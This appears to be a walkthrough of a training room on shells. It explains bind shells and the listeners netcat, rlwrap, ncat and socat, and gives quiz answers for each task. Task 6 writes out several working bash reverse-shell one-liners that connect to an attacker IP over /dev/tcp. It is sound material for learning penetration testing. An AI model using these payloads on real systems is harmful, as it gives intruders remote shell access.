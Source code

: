 In essence, the target will listen for incoming connections and expose a bash shell. We can use any port we want for this, but typically ports below 1024 will require Netcat to be executed with elevated/sudo privileges, which you may or may not be able to get to on the target.

On the attacking machine, you'd connect to the bind shell by running `nc -nv (TARGET_IP) 8080`:
- `-n` disables DNS resolution as before. This makes netcat faster, since it doesn't actually do any lookups.
- `-v` enables verbose mode to provide detailed output of the connection, e.g. when it was established.

**[Task 4, Question 1] What type of shell opens a specific port on the target for incoming connections from the attacker?** - bind shell

**[Task 4, Question 2] Listening below which port number requires root access or privileged permissions?** - 1024

## [Task 5] Shell Listeners

Netcat is a pretty simply utility that handles reverse shell connections for us; this will let the attacker interact with the exposed shell. However, netcat is not the only utility that lets us do this. There are some other tools that will serve the same purpose.
- `rlwrap` uses the GNU `readline` library to provide editing keyboard and history. The command `rlwrap nc -lvnp (PORT)` will let us use arrow keys and history for better interactivity in the remote shell (these usually cannot be used by default).
- `ncat` is an improved version of netcat developed by the nmap project, including features like encryption over SSL. It can be run with `ncat --ssl -lvnp 4444`.
- `socat` lets you create a socket connection between two data sources - in our case, this will be the two hosts. The command `socat -d -d TCP-LISTEN:443 STDOUT` uses the `-d` option to enable verbose output, with multiple `-d` flags being used to increase verbosity. The `TCP-LISTEN:443` option creates a TCP listener over port 443. The `STDOUT` option directs any incoming data to the terminal.

**[Task 5, Question 1] Which flexible networking tool allows you to create a socket connection between two data sources?** - `socat`

**[Task 5, Question 2] Which command-line utility provides readline-style editing and command history for programs that lack it, enhancing the interaction with a shell listener?** - `rlwrap`

**[Task 5, Question 3] What is the improved version of netcat distributed with the nmap project that offers additional features like SSL support for listening to encrypted shells?** - `ncat`

## [Task 6] Shell Payloads

Shell payloads are commands and scripts that expose the shell to an incoming connection (for bind shells) or send a connection out (for reverse shells). What follows are some common reverse shells.

For Bash:
- Normal reverse shell: `bash -i >& /dev/tcp/(ATTACKER_IP)/(PORT) 0>&1` - redirects input and output through TCP connection to the attacker's IP on a given port. The `>&` operator combines standard output and error.
- Read line reverse shell: `exec 5<>/dev/tcp/(ATTACKER_IP)/(PORT); cat <&5 | while read line; do $line 2>&5 >&5; done` - creates a new file descriptor, 5 in this case, and connects to a TCP socket. Commands are read/executed via the socket, and output is sent back over the same socket.
- File descriptor 196 reverse shell: `0<&196;exec 196<>/dev/tcp/(ATTACKER_IP)/(PORT); sh <&196 >&196 2>&196` - the file descriptor 196 is used to establish a TCP connection, and the shell reads commands from the network and sends it back out the same connection.
- File descriptor 5 reverse shell: `bash -i 5<> /dev/tcp/(ATTACKER_IP)/(PORT) 0<&5 1>&5 2>&5` - opens a shell using a different file descriptor for input and output, enabling an interactive session over the TCP connection.
